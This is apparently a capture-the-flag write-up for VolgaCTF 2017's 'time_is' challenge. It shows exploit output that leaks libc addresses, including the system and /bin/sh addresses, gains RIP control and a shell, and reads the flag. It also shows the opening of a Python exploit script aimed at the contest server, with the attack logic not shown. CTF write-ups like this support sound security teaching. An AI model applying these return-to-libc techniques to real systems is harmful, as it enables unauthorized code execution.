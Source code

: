 ```
-------------------------------------
|    setvbuf_libc is: 0x7f40bdc53e70|
|       time_libc is: 0x7fffcf7e0ea0| (wrong but irrelevant)
|     gmtime_libc is: 0x7f40bdc9ed60|
|       free_libc is: 0x7f40bdc67940|
|       LIBC BASE is: 0x7f40bdbe4000|
|     SYSTEM ADDR is: 0x7f40bdc29390|
| BIN_SH_STR ADDR is: 0x7f40bdd70177|
-------------------------------------

***********************
*** CONTROLLING RIP ***
***********************
$ ls
flag.txt
time_is
$ cat flag.txt
VolgaCTF{D0nt_u$e_printf_dont_use_C_dont_pr0gr@m}
$
```

## Exploit
NOTE: We have to pass an initial challenge in order to run the actual binary. This is just the way the organizers limited the amount of times you can run the program on the server. Because of this the exploit might take seconds to minutes to actually start running, since the challenge is often not solvable.
The challenge is not important for the exploit, but here it is: `Solve a puzzle: find an x such that 26 last bits of SHA1(x) are set, len(x)==29 and x[:24]=='<something>'`. Only needed remotely!

```python
#!/usr/bin/python
from struct import pack, unpack
import hashlib
import socket
from telnetlib import Telnet

TESTING_LOCAL = False
if TESTING_LOCAL == True:
    HOST = "localhost"
    PORT = 45678
else:
    HOST = "time-is.quals.2017.volgactf.ru"
    PORT = 45678

def p64(val):
    return pack("Q", val)

def RED(msg):
    RED_COLOR = "\033[31m"
    NO_COLOR  = "\033[0m"
    return RED_COLOR + msg + NO_COLOR

def send(s, msg, end = "\n", should_print = False):
    msg += end
    if should_print:
        print "Sending: '{}'".format(msg.replace("\n", "\\n"))
    s.sendall(msg)

def recv_until(s, until_str):
    res = ""
    while until_str not in res:
        res += s.recv(1)
    return res
```